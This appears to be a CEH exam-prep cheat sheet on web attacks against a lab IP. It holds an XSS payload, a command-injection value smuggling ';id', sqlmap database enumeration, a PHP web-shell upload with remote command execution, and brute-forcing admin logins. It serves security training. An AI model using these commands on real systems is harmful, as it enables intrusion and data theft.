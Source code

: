 XSS Testing

```
<script>alert('CEH')</script>  # Test in all input fields
```

Command Injection

```
curl "http://10.10.10.10/ping.php?ip=127.0.0.1;id"
```

### Automated Scanning Tools

OWASP ZAP Quick Start

```
zap-cli quick-scan -s xss,sqli http://10.10.10.10
```

SQLmap for Automated Exploitation

```
sqlmap -u "http://10.10.10.10/products.php?id=1" --risk=3 --level=5 --dbs
```

### File Upload Vulnerabilities

Bypass Client-Side Filters

```
curl -F "file=@shell.php" -H "Content-Type: multipart/form-data" http://10.10.10.10/upload.php
```

Verify Server Execution

```
curl http://10.10.10.10/uploads/shell.php?cmd=id
```

### Exam-Critical Reference Table

| Attack Type   | Tool           | Command Example                 | Detection Method           |
|---------------|----------------|----------------------------------|----------------------------|
| Brute Force   | Hydra          | `http-post-form` target syntax  | Failed login monitoring    |
| SQL Injection | SQLmap         | `--risk=3 --level=5`             | WAF rule analysis          |
| XSS           | Manual Testing | `<script>alert()</script>`       | Input sanitization checks  |
| File Upload   | cURL           | `-F` for form submission         | MIME type verification     |

### Practical Exam Checklist

1. Discover hidden directories with Gobuster
2. Brute force admin credentials
3. Test for SQLi/XSS vulnerabilities
4. Exploit file upload functionality
5. Document all findings with screenshots

